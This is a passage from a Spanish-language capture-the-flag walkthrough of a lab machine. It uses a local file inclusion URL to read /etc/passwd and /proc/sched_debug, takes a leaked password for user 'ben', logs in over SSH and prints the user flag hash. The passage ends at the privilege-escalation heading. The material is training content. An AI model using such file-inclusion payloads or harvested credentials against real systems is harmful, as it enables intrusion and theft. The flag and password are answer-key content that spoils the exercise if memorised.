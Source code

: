 ```
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
ben:x:1000:1000:ben,,,:/home/ben:/bin/bash
```

Veremos que esta funcionando y ya identificamos `1` usuario llamado `ben`, pero si recordamos antes en la pagina estaba cargando un archivo llamado `/proc/sched_debug`, vamos a probar a intentar leerlo a ver si nos revela informacion importante o no.

```
URL = http://<IP>/index.php?include=/proc/sched_debug
```

Info:

```
...........................<RESTO DE INFO>.........................................
S    ben:B3nP4zz   393      1585.480237        59   120         0.000000         4.695817         0.000000 0 0 /
...........................<RESTO DE INFO>.........................................
```

De toda la info que nos suelta vemos interesante esta linea de aqui, por lo que vemos puede ser una posible contraseña del usuario `ben` por `SSH`.

### SSH

```shell
ssh ben@<IP>
```

Metemos como contraseña `B3nP4zz`...

```
Linux brain 4.19.0-23-amd64 #1 SMP Debian 4.19.269-1 (2022-12-20) x86_64
ben@brain:~$ whoami
ben
```

Veremos que estaremos dentro, por lo que leeremos la `flag` del usuario.

> user.txt

```
4be68799a5cef6a6e2b36379e8ae2759
```

## Escalate Privileges
